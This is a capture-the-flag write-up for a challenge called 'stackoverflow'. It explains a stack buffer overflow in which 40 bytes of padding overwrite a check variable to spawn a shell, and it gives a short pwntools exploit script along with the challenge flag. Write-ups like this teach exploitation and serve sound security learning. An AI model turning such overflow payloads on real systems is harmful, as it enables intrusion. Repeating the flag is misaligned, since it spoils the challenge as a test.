


# stackoverflow
## Description
Welcome to Stack Overflow! Get answers to all your programming questions right here!

## Files
Provided binary for decompilation

## Decompiled code
We use ghidra to decompile the binary.

### `stackoverflow`


## Methodology
From the code we can see that we are prompted for our favourite color. This value is pushed to a variable `local_38` which has 40 bytes of memory allocated. Then there is a check if a variable `local_10` is of value `0x69637466` and if yes, we get a shell. From the code there is no way to control this value. We can however overflow our input buffer and overwrite the memory of this variable.

## Exploit
We use `pwntools` to interact with the remote server. We send 40 `A`s followed by the required hex value to spawn a shell.

## Exploit code
```python
from pwn import *

r = remote('chal.imaginaryctf.org', 42001)

r.recvline()
a = p32(0x69637466)
s = b'A'*40 + a + b'\r\n'

r.send(s)
r.interactive()
```

## Loot


## Flag
**ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}**